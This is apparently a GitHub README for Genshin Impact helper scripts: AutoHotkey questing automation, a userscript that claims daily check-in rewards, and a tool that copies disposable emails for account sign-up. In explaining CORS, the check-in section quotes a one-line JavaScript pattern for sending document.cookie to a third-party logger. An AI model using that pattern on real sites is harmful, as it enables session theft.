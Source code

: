 # Genshin Impact Script(s)
### This is free and unencumbered software released into the public domain.

## Plans?
May add Support for 1280x720 windowed mode or smaller<br>
*(Into consideration, the last screen resolution!)*
Bring back minor features of retrier2.<br>
Introduce new features?<br>

## Available scripts:

🔗 __[Retrier3-alpha](https://github.com/SlowsieNT/Genshin-Impact/tree/main/Retrier3-alpha)__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
🔗 __[retrier2.ahk](https://github.com/SlowsieNT/Genshin-Impact/blob/main/Retrier2-Legacy/retrier2.ahk)__ is now available at GitHub!<br>
(Not a bot, it is Helper for questing)<br>
🔗 __[genshin-checkin-redeem.js](https://github.com/SlowsieNT/Genshin-Impact/blob/main/js/tampermonkey/genshin-checkin-redeem.js)__ is now available at GitHub!<br>
(Used for auto redeem check-in reward)<br>
🔗 __[quickfmg.js](https://github.com/SlowsieNT/Genshin-Impact/blob/main/js/tampermonkey/quickfmg.js)__ is now available at GitHub!<br>
(Used for auto generate random mail & copy it, and then copy verification code for mihoyo account)

## NOTE:
Once **Retrier3** reaches beta phase, (old) retrier2 will no longer receive updates.

## Retrier3 (alpha)
#### Change variables in Retrier3.ahk!
- Like changing `vStandalone64Path` to skip long opening cutscene!
  - It will rename files, will NOT remove!
- Like changing `vPlayerFemale` to `0` for boy!
- Like changing `vNickname` to whatever name you wish!
- Like changing `vResolutionPostfix` to suit your screen resolution!
  - Pick between `WM1440`, and `FS1920`!!!
 
#### Supported Screen resolutions
- 1920x1080 (Fullscreen Mode)
- 1440x900 (Windowed Mode)
- No other resolutions are planned.<br>
#### Retrier3 is superior to v2
- More stable
- More code/"complex"
- "Easier" to maintain

## retrier2.ahk SETUP, same for v3 (except maintaining)
FOR pre-made script: <br>https://www.youtube.com/watch?v=7YDn-NKuO7A<br>
How to maintain: <br>https://www.youtube.com/watch?v=q0eT1Qar_nY

NOTE:
- Don't press F2 like a madman during register/login, script will break
  - Then you need to Press Home + F2
- Script can be used at ANY QUEST
  - BUT some MAY end up being STUCK in a loop (Venti's quest is just an example)
- Script can break
  - Press Home then F2 again if it escalates during Questing

### FAQ
Q: What's center of the mouse?<br>
Q: What's center of the cursor?<br>
A: Look at [this picture (*LINK*)](https://github.com/SlowsieNT/genshin/blob/main/center-of-cursor.png)<br><br>
Q: Will the script be updated in the future?<br>
A: Yes - to keep it alive, until 2022

[TEXT] FOR pre-made script:<br>
1. Go to Settings then Graphics
2. Set Quality to: Medium
3. Set Display Mode to: 1440x900 Windowed
4. Go to Settings then Language
5. Select Subtitles to: English

## genshin-checkin-redeem.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
#### NOTE: Only the account that is currently logged in, I may make a script for quick multi-account in few lines(C#) in the future!<br>
Every 3h script will try to check-in<br>
__Script will trigger when you are casually watching youtube videos, or just browsing__<br>
This script will send 2 requests, one will attempt to get checkin game reward, and the other request is another checkin<br>
I have tested it on other accounts and it should be working for you as well<br>
#### ALL SERVERS
Junior Developers may freak out because they'll see error(s) in the console, in the contrary `it just works™` because request is sent, but the response cannot arrive due CORS
- This technique is very common in Hacking
  - It was being used for DoS-ing
  - Or sending `document.cookie` to the 3rd party logger website
    - Sending `document.cookie` was mostly sent via `(new Image).src="...?_="+encodeURIComponent(document.cookie)`

## quickfmg.js
(requires Tampermonkey/Greasemonkey Opera/Chrome/Firefox extension)<br>
Once you add this script and go to [fakemailgenerator.com](http://www.fakemailgenerator.com/), you would click on Logo that will have green background.<br>
Once you click on the Logo, it will copy the new generated mail automatically<br>
IMPORTANT: It will copy verification code for genshin impact account, no worries
